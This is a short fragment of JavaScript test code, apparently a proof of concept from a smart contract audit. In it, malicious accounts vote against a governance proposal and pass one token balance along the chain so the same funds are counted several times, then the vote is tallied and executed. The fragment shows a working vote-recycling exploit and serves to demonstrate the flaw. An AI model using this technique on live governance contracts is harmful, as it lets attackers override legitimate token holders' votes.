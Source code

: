 ```

// Recycle funds across accounts and vote against

for (let  i = 0; i < maliciousRecyclers.length; i++) {

await  gov.connect(maliciousRecyclers[i]).vote(1, false, false);

  

if (i < maliciousRecyclers.length - 1) {

const  balance = await  token.balanceOf(maliciousRecyclers[i].address);

await  token.connect(maliciousRecyclers[i]).transfer(maliciousRecyclers[i + 1].address, balance);

}

}

  

for (let  i = 0; i < maliciousReporters.length; i++) {

await  gov.connect(maliciousReporters[i]).vote(1, false, false);

}

  

console.log("All voting complete. Tallying votes...");

  

// Tally and execute

await h.advanceTime(86400 * 2);

await  gov.tallyVotes(1);

await h.advanceTime(86400);

await  gov.executeVote(1);

  

// Get vote info

const  voteInfo = await  gov.getVoteInfo(1);

  

// Log results

console.log("VOTING RESULTS:");

console.log("Legitimate tokenholders (support):", voteInfo[1][5].toString());

console.log("Malicious recyclers (against):", voteInfo[1][6].toString());

console.log("Legitimate users (support):", voteInfo[1][8].toString());

console.log("Malicious users (against):", voteInfo[1][9].toString());

```